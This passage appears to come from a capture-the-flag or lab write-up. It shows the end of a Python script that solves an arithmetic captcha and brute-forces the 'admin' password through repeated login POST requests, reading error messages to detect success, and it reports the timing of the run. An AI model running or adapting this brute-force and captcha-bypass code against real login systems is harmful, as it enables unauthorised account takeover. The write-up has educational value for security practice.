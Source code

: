 ```python
                resultat = nb1 - nb2 + nb3
            elif op1 == 'x' and op2 == '+':
                resultat = nb1 * nb2 + nb3
            elif op1 == '+' and op2 == '-':
                resultat = nb1 + nb2 - nb3
            elif op1 == '-' and op2 == '-':
                resultat = nb1 - nb2 - nb3
            elif op1 == 'x' and op2 == '-':
                resultat = nb1 * nb2 - nb3
            elif op1 == '+' and op2 == 'x':
                resultat = nb2 * nb3 + nb1
            elif op1 == '-' and op2 == 'x':
                resultat = - nb2 * nb3 + nb1
            elif op1 == 'x' and op2 == 'x':
                resultat = nb1 * nb2 * nb3

########################################## Sending payload ############################################

            payload = {'username': 'admin', 'password': z, 'pincode': resultat}
            r2 = requests.post(url, payload, cookies=cookie)

            if re.search("Invalid login or password", str(r2.content)):
                print('Mauvais PASSWORD - '+str(nb_passwd))
                break
            elif re.search("Invalid pincode", str(r2.content)):
                pass
            else:
                print('PASSWORD IS : '+z)
                finish = True
                break
        except:
            pass
    if finish == True:
        break
```



It took about 7.15 minutes to test 325 passwords for an average time of 1.34 second per password.

![Result](images/Rerecaptcha_v1_Result.png)
